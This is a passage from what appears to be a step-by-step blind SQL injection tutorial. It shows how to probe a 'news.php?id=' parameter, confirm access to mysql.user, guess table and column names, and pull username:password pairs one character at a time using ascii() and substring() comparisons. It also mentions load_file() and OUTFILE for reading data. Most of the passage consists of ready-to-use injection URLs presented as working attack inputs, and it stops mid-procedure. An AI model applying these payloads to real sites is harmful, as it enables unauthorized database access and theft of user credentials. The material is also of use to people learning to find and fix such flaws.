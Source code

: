 If the page loads correctly, it indicates that the "subselect" function is operational. The subsequent step involves checking if we can access "mysql.user".

**Example**

```html
http://server/news.php?id=5 and (select 1 from mysql.user limit 0,1)=1
```

If the page loads without issues, it means we have access to "mysql.user". Based on this query, we can extract information, such as a password, using the **load\_file()** function and **OUTFILE**.

### Identifying Table and Column Names

This part of the process relies heavily on educated guessing and online research.

**Example**

```html
http://server/news.php?id=5 and (select 1 from users limit 0,1)=1
```

In the above example, "limit 0,1" ensures our query returns "1 row of data". If the page loads normally without any missing content, it implies that the "users" table exists. If you encounter FALSE, such as missing content on the page, alter the table name until you find the correct one.

Assuming we have identified "users" as the table name, the next step is to determine the column name using the same methodology. We can start with a common name like "password".

**Example**

```html
http://server/news.php?id=5 and (select substring(concat(1,password),1,1) from users limit 0,1)=1
```

If the page loads correctly, we can conclude that the column name is "password". If we encounter FALSE, we should try another common name. In the above example, we merge "1" with the column "password", and the **substring()** function returns the first character.

### Extracting Data from the Database

Assuming we have identified "users" as the table and "username" and "password" as the columns, we can now extract relevant information.

```html
http://server/news.php?id=5 and ascii(substring((SELECT concat (username,0x3a,password) from users limit 0,1),1,1))>80
```

In the above query, the **substring()** function returns the first character from the first user in the "users" table. The **ascii()** function converts that first character into its ASCII value and then compares it with the symbol greater than (">").

At this point, you should understand that if the ASCII character is greater than 80, the page will load correctly. We need to continue this process until we get false.

```html
http://server/news.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>95
```
